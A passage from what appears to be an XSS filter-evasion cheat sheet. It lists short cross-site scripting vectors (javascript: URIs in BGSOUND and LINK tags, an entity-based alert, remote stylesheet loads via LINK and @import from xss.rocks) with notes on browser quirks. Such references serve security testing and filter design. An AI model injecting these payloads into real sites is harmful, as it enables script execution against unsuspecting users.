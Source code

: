 <h2><a id="user-content-bgsound" class="anchor" aria-hidden="true" href="#bgsound"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>BGSOUND</h2>
<pre><code>&lt;BGSOUND SRC="javascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content--javascript-includes" class="anchor" aria-hidden="true" href="#-javascript-includes"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>&amp; JavaScript includes</h2>
<pre><code>&lt;BR SIZE="&amp;{alert('XSS')}"&gt;
</code></pre>
<h2><a id="user-content-style-sheet" class="anchor" aria-hidden="true" href="#style-sheet"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE sheet</h2>
<pre><code>&lt;LINK REL="stylesheet" HREF="javascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-remote-style-sheet" class="anchor" aria-hidden="true" href="#remote-style-sheet"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Remote style sheet</h2>
<p>Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:</p>
<pre><code>&lt;LINK REL="stylesheet" HREF="http://xss.rocks/xss.css"&gt;
</code></pre>
<h2><a id="user-content-remote-style-sheet-part-2" class="anchor" aria-hidden="true" href="#remote-style-sheet-part-2"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Remote style sheet part 2</h2>
<p>This works the same as above, but uses a <code>&lt;STYLE&gt;</code> tag instead of a <code>&lt;LINK&gt;</code> tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end <code>&lt;/STYLE&gt;</code> tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:</p>
<pre><code>&lt;STYLE&gt;@import'http://xss.rocks/xss.css';&lt;/STYLE&gt;
</code></pre>
<h2><a id="user-content-remote-style-sheet-part-3" class="anchor" aria-hidden="true" href="#remote-style-sheet-part-3"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Remote style sheet part 3</h2>